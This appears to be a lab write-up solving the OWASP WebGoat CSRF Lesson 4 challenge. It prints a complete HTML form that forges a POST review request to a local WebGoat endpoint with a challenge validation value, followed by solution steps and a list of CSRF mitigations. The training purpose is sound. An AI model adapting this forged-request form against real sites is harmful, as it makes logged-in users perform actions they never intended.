

# WebGoat CSRF – Lesson 4

## Objective

The objective of this lesson is to understand how a CSRF attack can be used to submit a forged review request to a vulnerable WebGoat application.

## Vulnerable Endpoint

```text
http://127.0.0.1:8080/WebGoat/csrf/review
```

## CSRF Payload

The following HTML form can be copied and pasted into an `.html` file and opened in a browser:

```html
<!DOCTYPE html>
<html>
<body>

<form action="http://127.0.0.1:8080/WebGoat/csrf/review"
      method="POST">

    <input type="hidden" name="reviewText" value="CSRF Test">
    <input type="hidden" name="stars" value="5">

    
    <input type="hidden" name="validateReq"
           value="2aa14227b9a13d0bede0388a7fba9aa9">

    <input type="submit" value="Submit CSRF">

</form>

</body>
</html>
```

## How It Works

The form sends a POST request to:

```text
http://127.0.0.1:8080/WebGoat/csrf/review
```

with the following parameters:

```text
reviewText=CSRF Test
stars=5
validateReq=2aa14227b9a13d0bede0388a7fba9aa9
```

### Important Parameters

```html
<input type="hidden" name="reviewText" value="CSRF Test">
```

Specifies the review text that will be submitted.

```html
<input type="hidden" name="stars" value="5">
```

Specifies the rating submitted with the forged request.

```html
<input type="hidden" name="validateReq"
       value="2aa14227b9a13d0bede0388a7fba9aa9">
```

Includes the validation value required by this WebGoat challenge.

## Solution Steps

1. Identify the review submission endpoint.
2. Inspect the parameters required by the request.
3. Create an HTML form that submits a POST request to the endpoint.
4. Add the required parameters as hidden form fields.
5. Save the payload as an `.html` file.
6. Open the file in the browser while the WebGoat session is active.
7. Click **Submit CSRF**.
8. Verify that the review request is successfully processed.

## Result

The forged review request was successfully submitted and the WebGoat challenge was completed.



## Key Learning

* CSRF attacks can target state-changing operations such as submitting reviews.
* Hidden HTML form fields can be used to construct forged requests.
* Attackers may reproduce the structure of legitimate application requests.
* Sensitive state-changing operations should include effective CSRF protection.

## Mitigation

Common CSRF protections include:

* Anti-CSRF tokens
* `SameSite` cookie attributes
* Origin/Referer validation
* Re-authentication for sensitive operations
* Server-side validation of requests

## Tools Used

* OWASP WebGoat
* Web Browser
* HTML
* HTTP
* Burp Suite

## Disclaimer

This demonstration was performed against the intentionally vulnerable OWASP WebGoat application in a controlled local environment for educational and cybersecurity learning purposes only.
